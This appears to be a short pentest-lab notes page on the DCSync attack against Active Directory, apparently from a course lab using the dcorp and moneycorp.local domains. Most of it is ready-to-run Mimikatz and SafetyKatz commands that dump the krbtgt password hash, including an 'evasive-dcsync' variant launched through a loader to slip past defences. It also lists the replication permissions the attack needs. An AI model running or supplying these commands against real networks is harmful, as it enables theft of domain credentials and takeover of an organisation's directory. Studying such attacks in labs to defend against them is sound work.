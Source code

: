 # DC Sync

Need **Domain Admin**, **Enterprise Admin** or **Domain Controller** privilege to make this attack happen.

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 

SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"

# For parent domain or different forest
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}

**DC-Sync with Loader**

```batch
:: If it fails klist purge and then start again after a restart
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

For DCsync to work below two are the main permissions that are needed:

* Replicating Directory Changes
* Replicating Directory Changese All
